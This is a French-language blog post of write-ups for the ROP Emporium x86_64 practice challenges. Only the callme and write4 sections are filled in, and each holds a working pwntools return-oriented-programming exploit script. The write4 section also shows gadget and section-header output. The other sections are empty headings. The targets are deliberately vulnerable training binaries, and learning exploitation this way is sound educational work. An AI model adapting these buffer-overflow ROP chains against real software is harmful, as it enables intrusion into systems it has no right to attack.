 ```yaml
---
title: "ROP Emporium - Writeups"
description: Writeups des challenges x86_64 de ROP Emporium 
---
```


Aujourd'hui je vous propose mes writeups des challenges x86_64 de [ROP Emporium](https://ropemporium.com/). Vous pouvez retrouver les [scripts de solution](https://github.com/nuts7/nuts7.github.io/tree/master/articles/ropemporium-writeups) directement sur mon GitHub. 😀

# Sommaire
1. [ret2win](#ret2win-writeup)
2. [split](#split-writeup)
3. [callme](#callme-writeup)
4. [write4](#write4-writeup)
5. [badchars](#badchars-writeup)
6. [fluff](#fluff-writeup)
7. [pivot](#pivot-writeup)
8. [ret2csu](#ret2csu-writeup)

<div id='ret2win-writeup'/>
# ret2win

<div id='split-writeup'/>
# split

<div id='callme-writeup'/>
# callme

```py
from pwn import *

context.arch = 'amd64'
p = process("./callme")
elf = ELF("./callme")
rop = ROP("./callme")

padding = cyclic(40)
gadget = p64((rop.find_gadget(["pop rdi", "pop rsi", "pop rdx", "ret"]))[0])
callme_1 = p64(elf.symbols['callme_one'])
callme_2 = p64(elf.symbols['callme_two'])
callme_3 = p64(elf.symbols['callme_three'])
arg_1 = p64(0xdeadbeefdeadbeef)
arg_2 = p64(0xcafebabecafebabe)
arg_3 = p64(0xd00df00dd00df00d)

def first_call(padding, gadget, callme_1):
    pld_1 = padding
    pld_1 += gadget
    pld_1 += arg_1
    pld_1 += arg_2
    pld_1 += arg_3
    pld_1 += callme_1
    return pld_1

def second_call(padding, gadget, callme_2): 
    pld_2 = gadget
    pld_2 += arg_1
    pld_2 += arg_2
    pld_2 += arg_3
    pld_2 += callme_2
    return pld_2

def third_call(padding, gadget, callme_3):
    pld_3 = gadget
    pld_3 += arg_1
    pld_3 += arg_2
    pld_3 += arg_3
    pld_3 += callme_3
    return pld_3

ropchain = first_call(padding, gadget, callme_1) 
ropchain += second_call(padding, gadget, callme_2)
ropchain += third_call(padding, gadget, callme_3)

p.sendline(ropchain)
p.interactive()
```

<div id='write4-writeup'/>
# write4

Après lecture de la description du [challenge write4](https://ropemporium.com/challenge/write4.html), nous comprenons que nous allons devoir **write flag.txt** en mémoire dans un **segment du binaire accessible en écriture** car cette string n'est pas présente de facon analogue et **call** la fonction `print_file()` dans la **PLT**. Il est spécifié que `print_file()` prend comme seul argument **l'emplacement mémoire** de flag.txt.

Premièrement regardons les permissions des différents segments et sections du binaire :
```py
❯ readelf -S write4
Il y a 29 en-têtes de section, débutant à l'adresse de décalage 0x1980:

En-têtes de section :
<...>
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
<..>
Clé des fanions :
  W (écriture), A (allocation), X (exécution), M (fusion), S (chaînes), I (info),
  L (ordre des liens), O (traitement supplémentaire par l'OS requis), G (groupe),
  T (TLS), C (compressé), x (inconnu), o (spécifique à l'OS), E (exclu),
  l (grand), p (processor specific)
```

Nous remarquons que nous avons 2 segments avec le **flag W** (écriture) d'activé. Par exemple, écrivons la string **flag.txt** dans le segment `.data`. (nous pouvons aussi utiliser .bss)
<br/>

Récupérons l'adresse du segment :

```py
❯ readelf -s write4 | grep .data
     5: 0000000000601038     0 NOTYPE  GLOBAL DEFAULT   23 _edata
    48: 0000000000601028     0 NOTYPE  WEAK   DEFAULT   23 data_start
    49: 0000000000601038     0 NOTYPE  GLOBAL DEFAULT   23 _edata
    52: 0000000000601028     0 NOTYPE  GLOBAL DEFAULT   23 __data_start
```

L'adresse de ce dernier est `0x601028`.

Maintenant, nous devons trouver un moyen de setup flag.txt dans .data. Pour cela nous avons 2 gadgets intéressants `pop r14 ; pop 15 ; ret` et `mov qword ptr [r14], r15 ; ret` :

```py
❯ ROPgadget --binary write4
<...>
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
<...>
```

Le but va etre d'empiler **l'adresse du segment writable** (.data) et la string **flag.txt** grace au buffer overflow, de setup ses valeurs dans 2 registres (ici r14 et r15) à l'aide d'un pop, puis de copier la valeur pointé dans l'opérande source (r15 qui pointe vers flag.txt) dans l'opérande de destination. (r14 qui pointe vers l'adresse de .data)
Ainsi, notre string flag.txt sera stocké à l'adresse du segment .data.

> Rappel : pop permet de désempiler de la stack la valeur pointé dans RSP et déplacer cette valeur dans l'opérande indiquée.

<br/>

Une fois que nous avons flag.txt dans notre binaire, il nous suffit simplement de passer en argument cette chaine à la fonction `print_file()`. Alors nous avons besoin d'un gadget `pop rdi ; ret` et évidemment de l'adresse de la fonction `print_file()` :

```py
❯ ROPgadget --binary write4 | grep "pop rdi ; ret"
0x0000000000400693 : pop rdi ; ret
❯ objdump -d write4 | grep print_file
0000000000400510 <print_file@plt>:
  400510:       ff 25 0a 0b 20 00       jmpq   *0x200b0a(%rip)        # 601020 <print_file>
  400620:       e8 eb fe ff ff          callq  400510 <print_file@plt>
```

Afin d'automatiser notre exploitation j'ai développé un petit script en python toujours avec la [librairie pwntools](https://github.com/Gallopsled/pwntools) :

```py
from pwn import *

context.arch = 'amd64'
p = process("./write4", stdin=PTY)
elf = ELF("./write4")
rop = ROP("./write4")

padding = cyclic(40)

data_segment = p64(elf.symbols["data_start"]) # readelf -s write4
flag_string = b"flag.txt"

pop_r14_pop_r15 = p64((rop.find_gadget(["pop r14", "pop r15", "ret"]))[0])
mov_ptr_r14_r15 = p64(0x400628)

pop_rdi = p64((rop.find_gadget(["pop rdi", "ret"]))[0])
print_file = p64(elf.symbols['print_file'])

pld = padding
pld += pop_r14_pop_r15 # to setup data addr & flag.txt in registers
pld += data_segment
pld += flag_string
pld += mov_ptr_r14_r15 # mov qword ptr [r14], r15 ; ret ==> to move flag.txt in data segment
pld += pop_rdi # to put the memory location of flag.txt in print_file() as argument
pld += data_segment
pld += print_file

p.sendline(pld)
p.interactive()
```

<div id='badchars-writeup'/>
# badchars

<div id='fluff-writeup'/>
# fluff

<div id='pivot-writeup'/>
# pivot

<div id='ret2csu-writeup'/>
# ret2csu
